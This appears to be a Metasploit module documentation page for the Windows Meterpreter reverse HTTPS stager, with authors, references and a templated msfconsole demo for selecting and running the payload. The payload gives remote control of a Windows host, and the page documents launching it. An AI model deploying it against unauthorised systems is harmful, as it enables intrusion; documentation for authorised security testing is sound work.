 ## Windows Meterpreter (Reflective Injection), Windows Reverse HTTPS Stager (wininet)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Tunnel communication over HTTPS 
(Windows wininet)


## Module Name
payload/windows/meterpreter/reverse_https

## Authors
* skape
* sf
* OJ Reeves
* hdm


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/reverse_https
msf payload(reverse_https) > show targets
   ... a list of targets ...
msf payload(reverse_https) > set TARGET <target-id>
msf payload(reverse_https) > show options
   ... show and set options ...
msf payload(reverse_https) > run
```
    
    